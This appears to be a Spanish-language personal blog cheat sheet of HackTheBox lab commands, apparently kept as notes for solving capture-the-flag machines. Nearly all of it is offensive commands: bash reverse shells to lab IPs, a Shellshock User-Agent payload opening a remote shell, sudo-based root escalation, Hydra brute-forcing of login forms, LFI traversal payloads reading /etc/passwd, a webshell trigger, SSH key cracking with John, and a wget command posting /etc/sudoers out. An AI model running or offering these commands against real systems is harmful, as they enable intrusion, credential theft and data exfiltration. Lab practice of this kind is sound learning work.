 ```yaml
---
layout: single
title: Recordatorio de comandos
date: 2022-07-02
classes: wide
header:
  teaser: /assets/images/bob.png
categories:
  - hackthebox
tags:
---
```


lista de comandos para recordar


![](/assets/images/bob.png)


##Herramientas usadas

-ESTE ARCHIVO SOLO ES PARA PONER FUNCIONES QUE PUEDEN SERVIR A FUTURO COMO COMANDO O HERRAMIENTAS

----
##reverse shell en bash
bash -i >& /de/tcp/10.10.10.10/443 0>&1
#o en caso de que falle es con
bash -c "bash -i >%26 /dev/tcp/10.10.10.10/443 0>%261"


##telnet----
para conectarse a telnet es con los siguientes comandos y funciona para puertos como 110 y 143
 telnet 10.10.10.10 110
 #para listar archivos
LIST
#para leer un archivo
RETR
-----


##identificar encriptados
Para decifrar encriptados podemos intentar con esta pagina que sirve para localizar el tipo
http://web.archive.org/web/20120624074941/http://home.comcast.net/~acabion/refscore.html



##para hacer fuerza bruta a hashes de idrsa u otros usamos johnthe ripper

primero pasamos el idrsa a hash con un script de python que esta en github
https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
#para ejecutarlo es con python exploit.py idrsa

python sshjohn.py idrsa > hash.hash


una vez en hash lo rompemos con john
john hash.hash --wordlist=password.txt
#para entrar a ssh con la clave es con 
ssh orestis@10.10.10.17 -i id_rsa
y ponemos la contrasena



##para la escalada de privilegios usando pkexec y este exploit 
https://github.com/ly4k/PwnKit


##Shellshock attack
para la maquina shocker explotamos shellshock en donde veamos que tiene un directorio cgi-bin podemos intentar explotarlo
para explotar un shellshock debemos abusar de el user agent con este comando ###User-Agent: () { :; };
lo podemos poner en un curl o en burpsuite curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1" http://10.10.10.56/cgi-bin/user.sh

#despues de el user agent podemos ejecutar comandos y ya podiamos enviar un reverse shell

para la escalada de privilegios abusamos de perl con este comando
#sudo perl -e 'exec "/bin/sh";'




##cambio de usuario con privilegios root
en la maquina bashed podemos cambiar de usuario con
sudo -u user

si vemos que tiene permisos root podemos obtener una shell con

sudo -u user /bin/bash




##escalacion con archivos ejecutables con permisos root
 en la maquina nibbles usamos la escalacion de privilegios por medio de un script que nos daba permisos root

pusimos un reverse shell simple en bash y lo ejecutamos como root con este comando

 sudo -u root /home/nibbler/personal/stuff/monitor.sh

esto sucede cuando podemos ejecutar archivos sin contresena con root

#

(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

## Esteganografia
para la maquina nineveh se utilizo esteganografia y las herramientas que use fueron

exiftool para ver si ocultaba datos adentro y
strings para ver que datos en las cadenas ocultaba


## HYDRA
para la maquina nineveh se puede acceder por fuerza bruta con hydra con el siguiente comando
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!" -o pass.tx

este comando es para un metodo https
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"


en esta pagina vemos como hacer ataques con hydra
https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/


##LFI PAYLOADS
para probar un file inclusion podemos probar con estas rutas 

/etc/passwd     No se selecciona ninguna nota.
../../../../../../../../../../etc/passwd        No se selecciona ninguna nota.
ninevehNotes    Advertencia: include(files/ninevehNotes): error al abrir el flujo: no existe tal archivo o directorio en /var/www/html/department/manage.php en la línea 31
ninevehNote     No se selecciona ninguna nota.
files/ninevehNotes/../../../../../../../../../etc/passwd        Nombre de archivo demasiado largo.
files/ninevehNotes/../../../../../../../etc/passwd      Los contenidos de /etc/passwd
/ninevehNotes/../etc/passwd     Los contenidos de /etc/passwd


##para hacer un lfi podemos intentar con la ruta si vemos una extension
http://10.10.10.43/department/manage.php/manage.php?notes=/ninevehNotes/../var/tmp/hack.php&cmd=id
 y para activar la webshell es con
?cmd=id
o
&cmd=id


##HYDRA

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.127.109 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid" -o pass


comando para hacerfuerza bruta en logins

# para hacer fuerza bruta a un hash con john debemos copiar completo el hash y usar la opcion normalmente

# en esta pagina podemos ver los tipos de hashes que hay para crakear

#para hacer sudo con wget podemos hacerlo con estos comandos
sudo wget --post-file=/etc/sudoers <listener IP>
sudo wget http://0.0.0.0 --output-document=/ruta para mover


##ruby dependencias yalm yalm.load es un error de una dependencia de ruby que puede ser vulnerable a ejecucion de comandos en el documento yml que carga yam.load en git_set podemos introduc>



##websocket
para explotarlo podemos con sql con sqlmap que podemos buscar un script en google y podemo ver las opciones

##sqlmap
--dsb enumera databases
-D enumera la base de datos que le pasamos
--tables enumera las tablas dentro de la base de datos
-T enumera la tabla que le pasamos
--colums enumera las columnas en la tabla que le pasamos
-C enumera las columnas que le pasamos
-dump es para obtener una copia de los datos que le pasamos

#comandos para actualizar la pagina de github
git add .
git commit -m "cambio"
git push -u origin
poner usuario y token de github


-

